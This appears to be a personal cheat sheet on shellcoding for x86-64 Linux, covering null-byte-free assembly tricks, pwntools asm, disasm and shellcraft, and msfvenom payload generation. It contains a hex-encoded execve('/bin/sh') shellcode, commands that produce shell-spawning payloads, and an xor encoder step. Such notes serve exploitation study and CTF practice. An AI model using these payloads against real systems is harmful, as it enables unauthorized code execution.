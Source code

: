 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```asm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```asm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> dir(shellcraft)

>>> syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
>>> asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```
